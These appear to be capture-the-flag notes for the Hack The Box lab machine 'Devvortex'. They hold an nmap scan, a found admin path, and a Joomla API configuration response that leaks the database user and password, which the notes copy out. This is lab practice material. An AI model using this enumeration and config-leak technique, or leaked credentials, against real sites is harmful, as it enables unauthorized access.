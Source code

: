 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-23 04:57 CDT
Nmap scan report for devvortex.htb (10.129.68.190)
Host is up (0.23s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: DevVortex
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.03 seconds


10.129.68.190 devvortex.htb dev.devvortex.htb


dev.devvortex.htb  :  directories 
/administrator 


lewis 
"password":"P4ntherg0t1n5r3c0n##"

email 
lewis@devvortex.htb

{"links":{"self":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true","next":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=20&page%5Blimit%5D=20","last":"http:\/\/dev.devvortex.htb\/api\/index.php\/v1\/config\/application?public=true&page%5Boffset%5D=60&page%5Blimit%5D=20"},"data":[{"type":"application","id":"224","attributes":{"offline":false,"id":224}},{"type":"application","id":"224","attributes":{"offline_message":"This site is down for maintenance.<br>Please check back again soon.","id":224}},{"type":"application","id":"224","attributes":{"display_offline_message":1,"id":224}},{"type":"application","id":"224","attributes":{"offline_image":"","id":224}},{"type":"application","id":"224","attributes":{"sitename":"Development","id":224}},{"type":"application","id":"224","attributes":{"editor":"tinymce","id":224}},{"type":"application","id":"224","attributes":{"captcha":"0","id":224}},{"type":"application","id":"224","attributes":{"list_limit":20,"id":224}},{"type":"application","id":"224","attributes":{"access":1,"id":224}},{"type":"application","id":"224","attributes":{"debug":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang":false,"id":224}},{"type":"application","id":"224","attributes":{"debug_lang_const":true,"id":224}},{"type":"application","id":"224","attributes":{"dbtype":"mysqli","id":224}},{"type":"application","id":"224","attributes":{"host":"localhost","id":224}},{"type":"application","id":"224","attributes":{"user":"lewis","id":224}},{"type":"application","id":"224","attributes":{"password":"P4ntherg0t1n5r3c0n##","id":224}},{"type":"application","id":"224","attributes":{"db":"joomla","id":224}},{"type":"application","id":"224","attributes":{"dbprefix":"sd4fg_","id":224}},{"type":"application","id":"224","attributes":{"dbencryption":0,"id":224}},{"type":"application","id":"224","attributes":{"dbsslverifyservercert":false,"id":224}}],"meta":{"total-pages":4}}
